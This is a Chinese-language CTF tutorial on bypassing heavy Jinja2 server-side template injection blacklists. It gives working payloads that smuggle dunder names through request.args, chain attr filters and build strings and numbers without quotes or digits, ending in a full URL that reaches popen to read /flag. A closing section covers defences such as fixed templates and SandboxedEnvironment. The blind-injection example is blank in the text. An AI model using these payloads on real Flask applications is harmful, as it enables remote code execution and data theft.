

# 🛡️ Jinja2 极端黑名单全防御破防矩阵：无下划线、无引号、无点、无数字死斗

> **CTF 极限绝境**：在现代高难度 CTF 赛题中，出题人往往会设置一段近乎变态的正则表达式拦截：
> `blacklist = ['_', '[', ']', '.', "'", '"', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '{{', '}}']`
> 当几乎所有的常规符号与语法糖被赶尽杀绝时，如何利用 Jinja2 的内置过滤器机制与上下文穿透实现绝地反杀？

---

## 0. 基础前置认知与小白扫盲：无点号、无引号、无下划线的极限求生

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 为什么过滤了这三个符号，初学者就无从下手？
* 在 Python Jinja2 模板注入中，标准的 Payload 几乎必须依靠：
  * 点号 `.` 访问对象属性（如 `"".__class__`）；
  * 双下划线 `__` 访问魔术方法；
  * 引号 `'` 传递模块名和命令字符串（如 `'os'`、`'whoami'`）。
* 一旦这三个符号全被 WAF 拉黑，普通 Payload 瞬间全部暴毙。

---

### 2. 替代求生武器库
* **无点号 `.` 的破局之法**：
  * Python 中访问字典属性除了 `obj.attr`，还可以用**方括号索引**：`obj['attr']`！
  * 甚至在 Jinja2 中，官方原生提供了一个过滤器叫 `|attr("attr_name")`，完全不需要输入任何点号！
* **无引号 `"'` 的破局之法**：
  * 从外界“借运”！黑客把字符串放在 HTTP 请求参数（如 `?cmd=whoami&mod=os`）中，在模板里直接用 `request.args.cmd` 动态提取，模板代码里一个引号都不需要出现！
* **无下划线 `_` 的破局之法**：
  * 同样从外部参数传入下划线，或者利用全局上下文字典 `lipsum`、`cycler` 寻找不需要下划线的内置对象。

---




## 一、防御维度一：无下划线 `_` 绕过（URL 参数外部搬运术）

下划线是访问 Python 所有魔术属性（`__class__`、`__mro__`）的必经之路。

### 1. 神级解法：`request.args` / `request.values` 穿透
* **原理**：WAF 或后端正则只校验被注入的模板参数（如 `name`），但 **Flask 的 `request` 全局对象可以在模板内部实时读取其他 HTTP GET/POST 参数！**
* 我们把带有下划线的敏感词**全部移到模板外部**，通过独立的 URL 参数传递！

#### 🔍 注入 Payload：
```http
GET /hello?name={{()[request.args.c][request.args.b][1][request.args.s]()}}&c=__class__&b=__mro__&s=__subclasses__
```
* **WAF 视角**：`name` 参数中**没有出现哪怕一个下划线 `_`**！成功骗过所有黑名单！
* **Jinja2 内部解析**：`request.args.c` 在运行时动态返回字符串 `"__class__"`，完美实现属性反射！

---

## 二、防御维度二：无引号 `'` 和 `"` 绕过

当单双引号被禁用，无法在模板内部定义字符串字面量时：

### 1. 技巧 A：直接利用 `request.args`
* `request.args.cmd` 接收到的任何内容，在 Python 内存中**天然就是字符串类型**，无需加引号！

### 2. 技巧 B：字典键提取转字符串（`dict` 拼装法）
Jinja2 支持无需引号声明字面量字典：
```jinja2
{{ dict(popen=1)|join }}
```
* `dict(popen=1)` 生成字典 `{'popen': 1}`；
* `|join` 过滤器将字典的所有键拼接为一个字符串，直接返回纯净的 `"popen"`！

---

## 三、防御维度三：无点号 `.` 绕过（属性提取平替矩阵）

当点号 `.` 被封杀，无法执行 `a.b.c` 属性调用时：

### 1. 方案 A：中括号字典寻址法
在 Python 与 Jinja2 中，对象的属性访问与字典取值是等价的：
* `a.b` $\iff$ `a['b']`

### 2. 方案 B：Jinja2 原生过滤器 `|attr()`
`|attr()` 是 Jinja2 官方专门用于动态获取对象属性的管道过滤器：
```jinja2
{{ ()|attr('__class__')|attr('__base__') }}
```
* **机理**：`obj|attr('name')` 在底层直接编译为 `getattr(obj, 'name')`，彻底消灭点号！

---

## 四、防御维度四：无中括号 `[` 和 `]` 绕过

当数组下标被拦截，无法通过 `[0]` 或 `['key']` 访问元组与列表时：

### 1. 方案 A：内置魔术方法 `__getitem__()`
Python 的列表和元组均实现了 `__getitem__` 方法：
* `mro[1]` $\iff$ `mro.__getitem__(1)`

### 2. 方案 B：列表元素弹出法 `pop()`
* `list[0]` $\iff$ `list.pop(0)`

---

## 五、防御维度五：无数字（0~9）全过滤绕过（布尔数学推导）

出题人把所有阿拉伯数字 `0, 1, 2, ...` 全部拉黑，如何向 `__subclasses__()[133]` 传入下标索引？

### 1. 纯布尔与长度计数生成器
在 Python 中，`True` 和 `False` 在进行数学运算时会自动类型提升为整型：
* `False` $\iff 0$；
* `True` $\iff 1$；
* `True + True` $\iff 2$；
* `(True + True) * (True + True)` $\iff 4$。

### 2. 利用 Jinja2 过滤器计数：
* **生成 0**：`([]|length)`（空列表长度为 0）；
* **生成 1**：`([[]]|length)` 或 `(true|int)`；
* **通过累加与乘方快速制造任意高位数**：
  例如制造数字 `133`：
  直接在 URL 参数中传入数字（`&idx=133`），或者利用 `dict` 长度计算。

---

## 六、防御维度六：无双花括号 `{{` 和 `}}` 绕过（语句块盲注）

如果 `{{` 和 `}}` 被 WAF 斩断，直接改用 **Jinja2 逻辑控制标签：``**！

### 1. 命令盲注与条件外带
```jinja2

    1

```
* **执行效果**：如果 Flag 的第 1 位是字母 `'f'`，页面输出 `1`；否则页面返回空白。配合二分法盲注脚本，无需在屏幕上直接打印，即可外带出全量 Flag 数据！

---

## 七、集大成者：极限全过滤通杀 Payload 组合拳

结合上述所有绕过技术，面对 **无下划线、无点号、无引号、无中括号** 的严苛过滤：

#### 🔍 终极利用 URL：
```http
GET /hello?name={{()|attr(request.args.c)|attr(request.args.m)|attr(request.args.g)(1)|attr(request.args.s)().pop(133)|attr(request.args.i)|attr(request.args.gl)|attr(request.args.gt)(request.args.p)(request.args.cmd)|attr(request.args.r)()}}&c=__class__&m=__mro__&g=__getitem__&s=__subclasses__&i=__init__&gl=__globals__&gt=__getitem__&p=popen&cmd=cat /flag&r=read
```

#### 🔍 过滤穿透性复盘：
* **`name` 注入参数内部**：只包含了 `()`、`|`、`attr`、`request.args`、`pop`，**没有下划线、没有单双引号、没有点号、没有中括号！**
* **底层还原效果**：
  $$\mathbf{()\rightarrow \_\_class\_\_ \rightarrow \_\_mro\_\_[1] \rightarrow \_\_subclasses\_\_()[133] \rightarrow \_\_init\_\_.\_\_globals\_\_['popen']('cat\ /flag').read()}$$
* 完美击穿防线，直通服务器底层执行！

---

## 🔗 相关双向链接
- 上级模块：[[06-SSTI模板注入体系]]
- 前置基础：[[Python Jinja2模板注入：MRO原型链寻找危险基类与RCE]]
- 跨语言模板：[[PHP模板引擎注入：Smarty与Twig语法特性及沙箱逃逸]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]

---
## 纵深防御与安全加固基线

> [!IMPORTANT]
> **模板注入防御核心底线**：模板引擎是用来渲染页面外观的，绝不能把不可信的外部用户输入直接当作模板结构去编译！

1. **绝对禁止动态拼接模板内容（参数化渲染规范）**：
   * 发生 SSTI 的根本原因在于开发人员使用了 `render_template_string(f"Hello {user_input}")`。
   * **正确姿势**：使用预先编译好的固定静态模板文件，所有用户输入严格通过命名参数传入，仅作为纯文本变量渲染：
   ```python
   # 安全示范：严禁拼接模板内容，必须参数化传参
   from flask import render_template
   return render_template('welcome.html', username=user_input)
   ```

2. **启用 Jinja2 官方沙箱环境（`SandboxedEnvironment`）**：
   * 若业务必须支持用户自定义模板功能，必须强制使用 Jinja2 官方提供的沙箱环境：
   ```python
   from jinja2.sandbox import SandboxedEnvironment
   env = SandboxedEnvironment()
   template = env.from_string(user_template)
   ```
   * 沙箱环境在底层拦截了一切对 `__class__`、`__globals__`、`__mro__`、`__subclasses__` 等私有属性和危险内置属性的反射调用，一旦尝试逃逸即触发 `SecurityError`。

3. **CI/CD 白盒代码静态审计与扫描**：
   * 在代码提交与自动化构建流水线中，配置 Semgrep / Bandit 扫描规则，全面检索 `render_template_string` 的调用点，一旦发现任何传入变量未经过严格白名单编译，直接阻断分支合并与上线。
